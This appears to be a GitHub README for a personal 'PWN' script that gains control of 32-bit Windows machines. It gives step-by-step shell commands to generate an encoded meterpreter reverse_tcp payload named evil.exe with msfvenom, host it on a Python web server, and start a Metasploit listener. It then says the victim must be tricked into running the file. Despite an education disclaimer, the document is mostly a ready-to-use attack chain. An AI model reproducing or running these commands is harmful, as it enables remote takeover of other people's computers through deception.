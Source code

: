 # PWN
This section will contain scripts that I wrote to gain ownership to a machine.

|Name|Description|
|----|-----------|
|pwnWindows_x86.sh| Get a meterpreter shell from 32bit windows with evil.exe|

### pwnWindows_x86.sh
This is a script to be used in Kali linux where the tools are already preinstalled.
1. Getting own IP and port
    ```sh
    attackerip=`ifconfig eth0 | grep netmask | cut -d' ' -f10`
    attackerport=9107
    ```
2. Generate evil.exe
    ```sh
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=$attackerip   LPORT=$attackerport -b '\x00\x0a\x0d' -f exe --arch x86 --platform windows -e x86/shikata_ga_nai -i 5 > evil.exe
    ```
    msfvenom is a very useful payload generator and encoder.
    
3. Host evil.exe on web server
    ```sh
    gnome-terminal --tab -e "python -m SimpleHTTPServer 80"
    ```
    A very simple way to start a web server with python2.7 
    `gnome-terminal --tab` was used to open up a separate terminal tab so that I can watch the web server on a separate terminal.
    
4. start metasploit meterpreter listener
    ```sh
    msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST $attackerip; set LPORT $attackerport; run;"
    ```
    Now that the meterpreter is listening, we will need to trick the victim to download and run this malicious `evil.exe`

**This is just for education purpose, hence the obvious file naming without much trickery.**

